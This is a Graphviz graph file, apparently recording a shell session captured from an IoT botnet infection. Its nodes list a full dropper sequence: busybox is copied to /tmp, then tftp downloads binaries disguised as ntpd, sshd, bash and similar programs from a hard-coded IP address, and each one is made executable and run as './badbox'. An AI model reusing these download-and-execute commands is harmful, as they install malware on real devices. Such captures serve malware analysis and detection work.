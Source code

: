 digraph {
1 [label=" ulimit -n 1024"];
5 [label=" cp /bin/busybox /tmp/"];
10 [label=" cd /tmp"];
14 [label=" cd /var/run"];
18 [label=" cd /mnt"];
22 [label=" cd /root"];
26 [label=" cd /"];
30 [label=" tftp -r ntpd -g 144.217.93.34"];
37 [label=" cat ntpd "];
43 [label=" chmod +x *"];
48 [label=" ./badbox"];
51 [label=" cd /tmp"];
55 [label=" cd /var/run"];
59 [label=" cd /mnt"];
63 [label=" cd /root"];
67 [label=" cd /"];
71 [label=" tftp -r sshd -g 144.217.93.34"];
78 [label=" cat sshd "];
84 [label=" chmod +x *"];
89 [label=" ./badbox"];
92 [label=" cd /tmp"];
96 [label=" cd /var/run"];
100 [label=" cd /mnt"];
104 [label=" cd /root"];
108 [label=" cd /"];
112 [label=" tftp -r openssh -g 144.217.93.34"];
119 [label=" cat openssh "];
125 [label=" chmod +x *"];
130 [label=" ./badbox"];
133 [label=" cd /tmp"];
137 [label=" cd /var/run"];
141 [label=" cd /mnt"];
145 [label=" cd /root"];
149 [label=" cd /"];
153 [label=" tftp -r bash -g 144.217.93.34"];
160 [label=" cat bash "];
166 [label=" chmod +x *"];
171 [label=" ./badbox"];
174 [label=" cd /tmp"];
178 [label=" cd /var/run"];
182 [label=" cd /mnt"];
186 [label=" cd /root"];
190 [label=" cd /"];
194 [label=" tftp -r tftp -g 144.217.93.34"];
201 [label=" cat tftp "];
207 [label=" chmod +x *"];
212 [label=" ./badbox"];
215 [label=" cd /tmp"];
219 [label=" cd /var/run"];
223 [label=" cd /mnt"];
227 [label=" cd /root"];
231 [label=" cd /"];
235 [label=" tftp -r wget -g 144.217.93.34"];
242 [label=" cat wget "];
248 [label=" chmod +x *"];
253 [label=" ./badbox"];
256 [label=" cd /tmp"];
260 [label=" cd /var/run"];
264 [label=" cd /mnt"];
268 [label=" cd /root"];
272 [label=" cd /"];
276 [label=" tftp -r cron -g 144.217.93.34"];
283 [label=" cat cron "];
289 [label=" chmod +x *"];
294 [label=" ./badbox"];
297 [label=" cd /tmp"];
301 [label=" cd /var/run"];
305 [label=" cd /mnt"];
309 [label=" cd /root"];
313 [label=" cd /"];
317 [label=" tftp -r ftp -g 144.217.93.34"];
324 [label=" cat ftp "];
330 [label=" chmod +x *"];
335 [label=" ./badbox"];
338 [label=" cd /tmp"];
342 [label=" cd /var/run"];
346 [label=" cd /mnt"];
350 [label=" cd /root"];
354 [label=" cd /"];
358 [label=" tftp -r pftp -g 144.217.93.34"];
365 [label=" cat pftp "];
371 [label=" chmod +x *"];
376 [label=" ./badbox"];
379 [label=" cd /tmp"];
383 [label=" cd /var/run"];
387 [label=" cd /mnt"];
391 [label=" cd /root"];
395 [label=" cd /"];
399 [label=" tftp -r sh -g 144.217.93.34"];
406 [label=" cat sh "];
412 [label=" chmod +x *"];
417 [label=" ./badbox"];
420 [label=" cd /tmp"];
424 [label=" cd /var/run"];
428 [label=" cd /mnt"];
432 [label=" cd /root"];
436 [label=" cd /"];
440 [label=" tftp -r   -g 144.217.93.34"];
447 [label=" cat   "];
453 [label=" chmod +x *"];
458 [label=" ./badbox"];
461 [label=" cd /tmp"];
465 [label=" cd /var/run"];
469 [label=" cd /mnt"];
473 [label=" cd /root"];
477 [label=" cd /"];
481 [label=" tftp -r apache2 -g 144.217.93.34"];
488 [label=" cat apache2 "];
494 [label=" chmod +x *"];
499 [label=" ./badbox"];
502 [label=" cd /tmp"];
506 [label=" cd /var/run"];
510 [label=" cd /mnt"];
514 [label=" cd /root"];
518 [label=" cd /"];
522 [label=" tftp -r telnetd -g 144.217.93.34"];
529 [label=" cat telnetd "];
535 [label=" chmod +x *"];
540 [label=" ./badbox"];
276 -> 283;
406 -> 412;
212 -> 215;
289 -> 294;
186 -> 190;
186 -> 194;
51 -> 55;
51 -> 71;
78 -> 84;
506 -> 510;
506 -> 522;
133 -> 137;
133 -> 153;
461 -> 465;
461 -> 481;
160 -> 166;
215 -> 219;
215 -> 235;
458 -> 461;
242 -> 248;
26 -> 30;
14 -> 18;
14 -> 30;
324 -> 330;
465 -> 469;
465 -> 481;
379 -> 383;
379 -> 399;
141 -> 145;
141 -> 153;
1 -> 5;
488 -> 494;
190 -> 194;
371 -> 376;
55 -> 59;
55 -> 71;
529 -> 535;
272 -> 276;
10 -> 14;
10 -> 30;
137 -> 141;
137 -> 153;
354 -> 358;
59 -> 63;
59 -> 71;
219 -> 223;
219 -> 235;
294 -> 297;
30 -> 37;
518 -> 522;
166 -> 171;
92 -> 96;
92 -> 112;
502 -> 506;
502 -> 522;
358 -> 365;
248 -> 253;
399 -> 406;
268 -> 272;
268 -> 276;
330 -> 335;
5 -> 10;
309 -> 313;
309 -> 317;
223 -> 227;
223 -> 235;
494 -> 499;
305 -> 309;
305 -> 317;
297 -> 301;
297 -> 317;
376 -> 379;
227 -> 231;
227 -> 235;
387 -> 391;
387 -> 399;
89 -> 92;
417 -> 420;
63 -> 67;
63 -> 71;
440 -> 447;
171 -> 174;
145 -> 149;
145 -> 153;
346 -> 350;
346 -> 358;
350 -> 354;
350 -> 358;
253 -> 256;
260 -> 264;
260 -> 276;
100 -> 104;
100 -> 112;
37 -> 43;
391 -> 395;
391 -> 399;
335 -> 338;
119 -> 125;
182 -> 186;
182 -> 194;
436 -> 440;
174 -> 178;
174 -> 194;
201 -> 207;
256 -> 260;
256 -> 276;
283 -> 289;
67 -> 71;
499 -> 502;
365 -> 371;
522 -> 529;
149 -> 153;
84 -> 89;
447 -> 453;
428 -> 432;
428 -> 440;
432 -> 436;
432 -> 440;
231 -> 235;
125 -> 130;
96 -> 100;
96 -> 112;
473 -> 477;
473 -> 481;
313 -> 317;
178 -> 182;
178 -> 194;
71 -> 78;
395 -> 399;
481 -> 488;
43 -> 48;
477 -> 481;
342 -> 346;
342 -> 358;
424 -> 428;
424 -> 440;
301 -> 305;
301 -> 317;
453 -> 458;
338 -> 342;
338 -> 358;
153 -> 160;
469 -> 473;
469 -> 481;
18 -> 22;
18 -> 30;
112 -> 119;
383 -> 387;
383 -> 399;
235 -> 242;
510 -> 514;
510 -> 522;
514 -> 518;
514 -> 522;
207 -> 212;
317 -> 324;
264 -> 268;
264 -> 276;
108 -> 112;
535 -> 540;
48 -> 51;
412 -> 417;
22 -> 26;
22 -> 30;
420 -> 424;
420 -> 440;
130 -> 133;
104 -> 108;
104 -> 112;
194 -> 201;
}
